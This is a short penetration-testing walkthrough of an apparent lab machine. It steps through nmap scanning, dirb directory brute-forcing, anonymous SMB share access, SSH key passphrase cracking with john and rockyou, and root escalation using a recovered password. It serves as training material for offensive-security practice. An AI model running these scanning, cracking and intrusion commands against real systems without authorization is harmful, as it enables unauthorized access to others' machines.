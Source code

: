 
---

# **Pentest Walkthrough: Target 0.0.0.0**

## **1. Initial Reconnaissance (Port Scanning)**

Scan the target for open ports and services:

```bash
nmap -v -A -Pn 0.0.0.0
```

- Found **port 80 (HTTP)** open.
- The webpage shows the message: **"Undergoing maintenance."**

---

## **2. Directory Bruteforce (Web Enumeration)**

Look for hidden directories and files:

```bash
dirb http://0.0.0.0 -w /usr/share/dirb/big.txt
```

- Found `/development/` directory.
- Contains two interesting `.txt` files:
    - Mentions **weak credentials**.
    - Hints at **SMB** service and reveals the **first letter of username**.

---

## **3. SMB Enumeration**

List available SMB shares:

```bash
smbclient -L //0.0.0.0 -N
```

- Found an **Anonymous** share.

Access the share:

```bash
smbclient //0.0.0.0/Anonymous -N
```

- Retrieved files containing usernames:
    
    - **kay**
    - **jan**

---

## **4. SSH Key Retrieval & Cracking**

Found SSH keys inside SMB share:

- Private key: `id_rsa`
- Public key: `id_rsa.pub`  
    (The public key notes that no password is required for login.)

Crack the SSH private key passphrase:

```bash
ssh2john id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

- Successfully cracked the passphrase.

---

## **5. SSH Access & Privilege Escalation**

SSH into the target:

```bash
ssh -i id_rsa kay@0.0.0.0
```

Inside Kay's home directory, found `pass.bak` containing Kay's password.

Switch to root or escalate privileges using Kay’s password:

```bash
su root
```

or use it wherever needed to gain **root access**.